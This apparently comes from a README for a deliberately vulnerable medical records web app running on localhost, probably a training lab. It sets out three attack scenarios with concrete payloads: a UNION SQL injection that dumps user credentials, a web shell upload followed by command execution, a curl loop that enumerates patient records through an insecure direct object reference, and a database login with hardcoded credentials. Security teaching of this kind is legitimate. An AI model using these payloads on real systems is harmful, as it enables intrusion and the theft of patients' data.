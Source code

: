 ### Scenario 1: Complete System Compromise

1. **Reconnaissance**:
   ```
   http://localhost:8080/api.php
   http://localhost:8080/index.php?info=1
   ```

2. **SQL Injection to Extract Credentials**:
   ```
   Search: ' UNION SELECT id,username,password,email,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20 FROM users -- 
   ```

3. **Login as Admin**:
   ```
   Username: admin
   Password: admin123
   ```

4. **Upload Web Shell**:
   Upload `shell.php` via `upload.php`

5. **Command Execution**:
   ```
   http://localhost:8080/uploads/shell.php?cmd=cat+.env.example
   ```

6. **Establish Persistence**:
   Create backdoor account via command execution

---

### Scenario 2: Data Exfiltration

1. **Bypass Authentication** (SQL Injection)
2. **Access All Patient Records** (IDOR):
   ```bash
   for i in {1..20}; do
     curl "http://localhost:8080/dashboard.php?patient_id=$i"
   done
   ```
3. **Export Complete Database**:
   ```
   http://localhost:8080/reports.php?export=csv
   ```

---

### Scenario 3: Lateral Movement

1. **Compromise Web Application**
2. **Read Credentials** from `.env.example`
3. **Connect to Database**:
   ```bash
   mysql -h localhost -u webapp -pwebapp123 medcare_ehr
   ```
4. **Pivot to Other Systems** using discovered credentials

---